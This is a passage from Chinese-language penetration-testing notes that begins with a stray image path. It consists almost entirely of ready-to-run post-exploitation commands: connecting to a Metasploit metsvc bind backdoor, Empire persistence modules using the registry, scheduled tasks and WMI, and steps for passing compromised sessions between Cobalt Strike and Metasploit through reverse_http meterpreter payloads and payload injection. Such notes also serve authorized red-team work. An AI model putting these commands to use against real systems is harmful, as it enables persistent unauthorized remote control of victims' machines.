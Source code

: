   `run metsvc –r` //卸载后门

  连接后门

  ```bash
  use exploit/multi/handler
  set payload windows/metsvc_bind_tcp
  set RHOST 192.168.0.1
  set LPORT 31337
  run
  ```

  

##### 4.Empire

```
powershell/persistence/elevated/registry //注册表
powershell/persistence/elevated/schtasks //计划任务
powershell/persistence/elevated/wmi //wmi
```

#### 3.7会话互转

##### 1.Cs→msf

msf建立监听

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost xxxxxx   (本机ip)
set lport xxxx
run
```

cs创建listen

`Foreign http`

`spawn msf`

##### 2.msf→cs

cs建立监听

`Beacon http`

msf转派会话

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true
set lhost 192.168.0.1     # 填写cs监听的地址
set lport 60002               # cs监听端口
set session 1				#指定session
exploit
```
